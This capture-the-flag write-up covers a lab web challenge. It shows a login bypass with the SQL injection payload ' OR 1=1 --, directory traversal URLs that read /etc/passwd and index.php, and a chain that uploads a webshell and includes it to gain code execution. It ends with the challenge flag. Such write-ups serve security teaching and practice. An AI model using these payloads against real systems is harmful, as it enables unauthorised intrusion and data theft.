 # Checking the site

The website is the Racoon City Police Department's website.

![](screenshots/1.png)

The challenge description suggests making a `tea` somehow.

# Login

There is an SQL injection on the login page. Using the standard `' OR 1=1 --` in the username and password instantly let us in.

![](screenshots/2.png)

The error messages are also verbose if the bypass is not achived instantly.

![](screenshots/3.png)

After logging in, there is a case upload and gallery functionality.

# Gallery

Trying to open anythin in the gallery results in an error message, but the `file` parameter is visible.

The paramemter is vulnerable to directory traversal, and any file can be viewed with it, like `/etc/passwd` or the `index.php` (path from SQL error message as well).

```
http://10.10.1.11:65304/pages/gallery.php?file=../../../../../etc/passwd
http://10.10.1.11:65304/pages/gallery.php?file=../../../../../var/www/html/index.php
```

![](screenshots/4.png)

It is visible that the file is not read and printed, but included, as the php is executed and not printed.

# Cases

This is a file upload functuonality. You can upload a file, usually without restriction.

The [shell.txt](workdir/shell.txt) webshell was uploaded to an unknown location.

# Exploit

The challenge description mentions `cases directory`. Using the gallery functionality, the `shell.txt` can be found by stepping 1 directory up a few times.

```
http://10.10.1.11:65304/pages/gallery.php?file=shell.txt"
http://10.10.1.11:65304/pages/gallery.php?file=../cases/shell.txt"
http://10.10.1.11:65304/pages/gallery.php?file=../../cases/shell.txt"
http://10.10.1.11:65304/pages/gallery.php?file=../../../cases/shell.txt"
```

![](screenshots/5.png)

Using the webshell, the flag can be found in [/root/Wesker.png](workdir/Wesker.png).

![](screenshots/6.png)

# Loot

The flag is inside the comment of the png.

```bash
exiftool Wesker.png
```

```
ExifTool Version Number         : 12.76
File Name                       : Wesker.png
Directory                       : .
File Size                       : 174 kB
File Modification Date/Time     : 2024:09:30 10:48:52+02:00
File Access Date/Time           : 2024:09:30 10:49:00+02:00
File Inode Change Date/Time     : 2024:09:30 10:48:52+02:00
File Permissions                : -rwxrwxrwx
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 493
Image Height                    : 408
Bit Depth                       : 8
Color Type                      : RGB
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Pixels Per Unit X               : 3780
Pixels Per Unit Y               : 3780
Pixel Units                     : meters
Comment                         : CQ24{Th1sR3s1d3nt1snt3v1L}
Image Size                      : 493x408
Megapixels                      : 0.201
```

# Flag

`CQ24{Th1sR3s1d3nt1snt3v1L}`

# Source

The source was exfiltrated and can be found in [www.tar.gz](workdir/www.tar.gz).